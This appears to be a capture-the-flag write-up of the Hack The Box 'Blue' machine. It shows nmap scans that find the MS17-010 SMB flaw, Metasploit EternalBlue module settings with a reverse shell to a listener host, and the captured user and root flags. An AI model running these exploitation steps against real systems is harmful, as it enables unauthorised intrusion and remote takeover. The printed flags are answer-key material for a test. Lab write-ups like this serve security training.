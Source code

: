 # Blue - Hack the Box - Report

First things First

## Nmap Scan

1. `nmap -p 1-65535 -T4 -A -v blue`
2. `nmap --script vuln nmap/vulnscan blue`

### Results

### Port Scan

    PORT      STATE SERVICE      VERSION
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
    49156/tcp open  msrpc        Microsoft Windows RPC
    49157/tcp open  msrpc        Microsoft Windows RPC

### Vuln Scan

    Host script results:
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
    | smb-vuln-ms17-010:
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

## SMB Vulnerability

I searched the msfconsole for CVE-2017-0143. A couple of results popped up. I used the eternal blue.

`msf5 exploit(windows/smb/ms17_010_eternalblue`

    Module options (exploit/windows/smb/ms17_010_eternalblue):

       Name           Current Setting  Required  Description
       ----           ---------------  --------  -----------
       RHOSTS         10.10.10.40      yes       The target address range or CIDR identifier
       RPORT          445              yes       The target port (TCP)
       SMBDomain      .                no        (Optional) The Windows domain to use for authentication
       SMBPass                         no        (Optional) The password for the specified username
       SMBUser                         no        (Optional) The username to authenticate as
       VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
       VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


    Payload options (generic/shell_reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.17      yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Windows 7 and Server 2008 R2 (x64) All Service Packs

I enumerated the machine and found a *user.txt* file:

`4c546aea7dbee75cbd71de245c8deea9`

Then I found the root.txt:

`ff548eb71e920ff6c08843ce9df4e717`
